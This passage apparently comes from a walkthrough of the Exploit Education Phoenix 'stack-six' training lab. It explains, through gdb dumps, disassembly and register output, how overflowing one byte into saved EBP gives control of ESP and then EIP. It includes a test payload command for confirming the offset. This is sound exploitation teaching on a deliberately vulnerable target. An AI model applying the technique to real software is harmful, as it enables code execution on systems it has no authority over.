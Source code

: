 ```bash
(gdb) x/xw $esp
0xffffd545:     0x00000000

(gdb) x/16xw $esp-41
0xffffd51c:     0x00000000      0x41414141      0xffffd5e4      0x00000001
0xffffd52c:     0x0804866b      0x08049930      0x00000000      0x00000000
0xffffd53c:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd54c:     0xffffded6      0x00000000      0xffffd570      0xffffd5ec
```

```bash
0x08048673 <+104>:   mov    ecx,DWORD PTR [ebp-0x4]
```

Here, the value at ebp-0x4 is stored in ecx. This is crucial since ECX will be used to restore ESP before leaving `main`.
This means, if we can control the value at EBP-0x4 we can set ESP to an arbitrary value before leaving `main`. If we can do this, we can control EIP and gain arbitrary code execution.


```bash
0x08048676 <+107>:   leave
=> 0x08048677 <+108>:   lea    -0x4(%ecx),%esp
0x0804867a <+111>:   ret
```

When leaving `main`, ESP is set to ECX-0x4. Remember, ECX was previously set to an attacker-controlled value. 

First, we need to find the offset that can be used to arbitrarily set the last byte of EBP. This is easy, since it is only one byte, it is most likely the very last byte of our payload. Let's confirm this:

```bash
export ExploitEducation=`python -c 'print "A" * 126 + "B"'`

(gdb) break *main+107
Breakpoint 1 at 0x8048676
(gdb) r
Starting program: /opt/phoenix/i486/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome home, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB_

Breakpoint 1, 0x08048676 in main ()
(gdb) info reg
eax            0x0                 0
ecx            0x41410000          1094778880
edx            0x0                 0
ebx            0x41414141          1094795585
esp            0xffffd560          0xffffd560
ebp            0xffffd542          0xffffd542
esi            0xffffd604          -10748
edi            0x1                 1
eip            0x8048676           0x8048676 <main+107>
eflags         0x286               [ PF SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
```
